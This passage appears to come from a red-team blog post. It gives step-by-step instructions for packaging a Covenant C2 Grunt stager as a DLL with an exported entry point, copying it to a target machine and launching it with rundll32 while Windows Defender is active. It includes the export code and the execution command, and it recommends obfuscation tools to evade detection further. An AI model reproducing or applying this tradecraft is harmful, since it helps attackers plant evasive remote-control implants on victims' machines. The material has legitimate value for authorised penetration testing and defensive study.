 - Open __Visual__ __Studio__ and create a new __Class__ __Library__ __(.NET__ __Framework)__ project. Delete everything in Class1.cs and paste the __StagerCode__.

- Go to Project > Manage NuGet Packages. Click browse and search for __UnmanagedExports__. Install the package by Robert Giesecke.

- Collapse the __GruntStager__ class and add the following Export class underneath.

```cpp
public class Exports
{
    [DllExport("MonkEntry", CallingConvention = CallingConvention.Cdecl)]
    public static void MonkEntry(IntPtr hwnd,
    IntPtr hinst,
    string lpszCmdLine,
    int nCmdShow)
    {
        new MonkStager.MonkStager();
    }
}

```

- Add using statements for __System.Runtime.InteropServices__ and __RGiesecke.DllExport__. 

- Open the __Configuration__ __Manager__ and create a `"New Solution Platform for x64"` (and x86 if you require).

Now build the project and copy the DLL to the target machine. We can now execute the DLL with __rundll32__ taking advantage of the exports funcion. 

```sh
rundll32 covenant-DLL-noAmsi.dll,MonkEntry
```

If everything goes fine now you should have your __Grunt__ checking in on __Covenant__.

<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov3.JPG">
</p> 


__Note:__ Windows Defender real time protection is enabled 🚩


Once the modified C# Monkstager has been downloaded and imported into Visual Studio it is possible to add further obfuscation using the following tool from IBM XForce-Red

- [InvisibilityCloak:](https://github.com/xforcered/InvisibilityCloak) Obfuscation toolkit for C# post-exploitation tools that perform basics actions for a C# visual studio project.

Alternatively, on the final __.exe__ payload is possible to apply futher string obfuscation using the following tool:

